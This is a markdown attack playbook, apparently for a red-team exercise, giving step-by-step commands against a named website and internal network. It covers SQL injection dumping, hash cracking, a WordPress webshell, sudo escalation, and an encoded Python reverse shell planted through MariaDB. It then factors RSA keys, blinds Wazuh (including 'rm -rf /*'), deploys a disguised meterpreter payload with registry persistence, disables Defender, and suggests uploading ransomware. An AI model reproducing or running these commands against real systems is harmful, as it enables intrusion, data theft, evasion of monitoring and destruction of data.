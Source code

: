 # List of useful commands
This list contains useful commands to use during the attack

# Port enumeration
Enumerates all the open ports in a stealthier way\
`nmap -sS -sV -vv 10.0.1.1 -p-`

# Dumping database
Dumping the database via SQLi\
`sqlmap -u http://www.quinteflush.org/login.php --forms --dump --dbs --batch`

# Crack the hash
From the database, crack the hash in hope of finding an admin password for wordpress\
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Then login to `http://www.quinteflush.org/wp-admin` via `admin:********`.\
Install the `File Manager Advanced` plugin and replace a webpage with a webshell.

# Webshell
Use a listener on 0.0.0.0 with either port 80/tcp, 443/tcp or 53/tcp\
`rlwrap nc -lvnp 53`

Go to the edited webpage to trigger the webshell

# Privilege Escalation
First, let's enumerate all what are the sudo rights given to www-data\
`sudo -l`
\
privilege escalation (gtfobins) in interactive mode\
`sudo vim -c ':!/bin/bash -i'`\
\
If you don't use interactive mode, upgrade the shell to interact better with the system\
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

# Information gathering
Check the wordpress configuration to access the database.\
`cat /var/www/wordpress/wp-config.php`

# SSRF RCE Mariadb
Launch mariadb by using the wordpress configuration.\
`mariadb -u wordpress_user -p --host=10.0.0.6`\

Drop the python3 (base64 encoded) payload on the mariadb server, which is on the LAN:\
```
USE shop;
SELECT 'eval $(echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMC4xLjEiLDIyKSk7W29zLmR1cDIocy5maWxlbm8oKSxmKWZvciBmIGluKDAsMSwyKV07cHR5LnNwYXduKCJzaCIpJw== | base64 -d)' INTO OUTFILE '/tmp/mysql.sh' FROM 'shop.user' LIMIT 1;
```

On the nmap report, there's a ssh running on port `22/tcp`. Disable the service ssh on webserver:\
`systemctl stop ssh`\

Install `netcat` then launch a listener on port `22`:\
`apt install netcat-openbsd && nc -lvnp 22`\

Wait 1 to 2 minutes, so that the backup script executes our payload.

# Breaking RSA
You will find 2 rsa 4096bits public keys. These keys are vulnerable to Fermat's algorithm. Generate the `n` module to factorize it, and obtain `p` and `q`, so you can generate the private key.
```
ssh-keygen -e -m PKCS8 -f <public_key> | openssl rsa -pubin -noout -modulus
echo "ibase=16; <result_of_the_previous_command>" | BC_LINE_LENGTH=0 bc
```

Paste the result in your python `fermat.py` as the argument of the `factorize()` function. You will obtain `p` and `q`.

# Wazuh
Once logged in, make Wazuh blind. Use any method you can think of (e.g. changing ip address, stopping the service, `rm -rf /*`...)

# Active Directory
Upload a custom C2 to avoid leaving IoCs. Use an obfusated `meterpreter` and upload it via `scp -r` to the `Domain Controller`.\
`msfvenom -p windows/x64/meterpreter/reverse_http LHOST=10.0.0.6 LPORT=80 -f csharp`
Encrypt the payload with `xor_payload` then obfuscate it with `payload`. Rename it to a more conventional name (e.g. LibreOffice.exe, Chromium.exe...).\
Setup a meterpreter listener:\
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_http
set lhost 10.0.0.6
set lport 80
# avoiding IoCs
set AutoLoadStdapi false
set AutoSystemInfo false
# opportunity to get more than 1 listener
set ReverseListenerThreaded true
exploit
```
With a **SSH** session, upload then launch the program (use several session if possible). Once a meterpreter session opened, execute the following:
```
# persistance (adapt to a more stealthy location)
reg setval -k 'HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run' -t REG_SZ -v 'LibreOffice' -d 'C:\Users\Administrator\Desktop\LibreOffice.exe'
# use a shell (wait at least a minute to be even more stealthy!)
load stdapi
shell
# create an AV exception
Add-MpPreference -ExclusionPath "C:\Users\Administrator\Desktop"
# Disable AV
Set-MpPreference -DisableTamperProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -MAPSReporting 0
​Set-MpPreference -SubmitSamplesConsent NeverSend
```

Upload any file (e.g. ransomware, spyware...) after disabling the controls with the meterpreter shell with `upload <path/to/file>`